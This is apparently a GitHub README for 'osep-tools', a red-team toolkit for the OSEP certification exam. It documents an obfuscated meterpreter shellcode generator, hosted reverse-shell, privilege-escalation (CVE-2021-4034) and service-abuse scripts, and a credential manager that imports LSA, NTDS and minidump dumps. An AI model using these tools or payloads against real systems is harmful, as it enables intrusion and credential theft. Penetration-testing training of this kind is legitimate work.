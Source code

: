 # osep-tools

## 3rd Party Library Version Info

* SharpHound [1.0.3](https://github.com/BloodHoundAD/SharpHound/commit/97f5d42bbb9c049e5f2ae14d6f9306358f92d8cf)
* CrackMapExec [5.2.1](https://github.com/byt3bl33d3r/CrackMapExec/commit/e9bcd09bd2c862200a40ecdc431fcf56f0ae5b67)

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```

![](images/screenshot-msfapiserv.png)

## AttackSuite

### Setup I

Something useful in red team auditing.
```
pip3 install -r requirements.txt
```

Put following command into `~/.zshrc`

```
alias a="$HOME/.local/bin/arsenal"
```

### Setup II

#### For ARM64 Kali

Tools to compile `CSharp EXE` & `linux elf`.

```
sudo apt install -y mono-complete gcc-11-x86-64-linux-gnu
```

#### For AMD64 Kali

Tools to compile `CSharp EXE`.

```
sudo apt install -y mono-complete
```


### Intro

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-r REVPORT]
                      [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME]
                      [--mhome MSF_WORKDIR] [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC]
                      [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  -r REVPORT, --revport REVPORT
                        NC Listener Port
  -gP GPORT, --gport GPORT
                        grunt Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --chome CHOME         Covenant home directory
  --mhome MSF_WORKDIR   Metasploit Custom Meterpreter Scripts directory.
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf,
                        'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
  --csc CSC             C# compiler command
  --gcc GCC             GNU compiler command
```

![](images/screenshot-attackSuite.png)

### pre-defined scripts with fixed name

`http://<IP>:<PORT>/<name>`

| name | Function |
| ------ | ------ |
| /pk.ps1    | Invoke-KillPPL            |
| /flm.ps1   | Invoke-FLM                |
| /go.ps1    | met(x64) installutil      |
| /gm.ps1    | met(x64) msbuild          |
| /rev.ps1   | reverse flm shell         |
| /svc.ps1   | met(?) in service binary  |
| /svc_.ps1  | Invoke-ServicePwn         |
| /msi       | Write-MSI                 |
| /llpe      | linux LPE (cve-2021-4034) |
| /wlpc      | Invoke-WinPeas            |

### arsenal integration

```
alias a="arsenal"
cheatsheet output: $HOME/.cheats/osep_hunter.md    ( Only exist when attackSuite is runing )
```

![](images/screenshot-attackSuite-arsenal.png)
                                        
## centre credential/host/record manager
                                        
Post-Exploitation Enumeration Tool designed for OSEP EXAM
                                        
### Setup

```
pip3 install -r requirements-centre.txt
```

Put following command into `~/.zshrc`.

```
alias centre.py="/path/to/centre.py"
```

You can type `centre.py` everywhere, creating `credential/host/record` in current working directory.

### Intro

```
usage: centre.py [-h] [--cme] [--rdp] [--import-lsa _LSA] [--import-ntds _NTDS] [--import-mini _MINIDUMP] [--import-nmap _NMAPXML] [-t ITARGET_IP]
                 [-T ITARGET_NAME] [--reset] [--debug] [--noproxy]

optional arguments:
  -h, --help            show this help message and exit
  --cme
  --rdp
  --import-lsa _LSA
  --import-ntds _NTDS
  --import-mini _MINIDUMP
  --import-nmap _NMAPXML
  -t ITARGET_IP, --itarget-ip ITARGET_IP
                        must be IPv4 format
  -T ITARGET_NAME, --itarget-name ITARGET_NAME
  --reset
  --debug
  --noproxy
```

execution result
```
+----+---------------+--------+----------------------------------+------------+
|    | User          | Pass   | NTLM                             | Domain     |
|----+---------------+--------+----------------------------------+------------|
|  0 | sqlsvc        |        | ******************************** | ******.*** |
+----+---------------+--------+----------------------------------+------------+
+----+----------------+----------+--------------------+
|    | IP             | HOST     | Ports              |
|----+----------------+----------+--------------------|
|  0 | 172.16.***.*** | dc04     | 5985 3389 445      |
|  1 | 172.16.***.*** | sql05    | 1433 445 5985 3389 |
|  2 | 172.16.***.*** | sql07    | 1433 445 5985 3389 |
|  3 | 172.16.***.*** | client09 | 3389 445           |
+----+----------------+----------+--------------------+

==== RCE machines ====
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
|    | IP             | User          | Pass   | NTLM                             | Domain     | Protocol   |   Status |
|----+----------------+---------------+--------+----------------------------------+------------+------------+----------|
|  0 | 172.16.***.*** | sqlsvc        |        | ******************************** | ******.*** | cme-mssql  |        1 |
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
======================
```
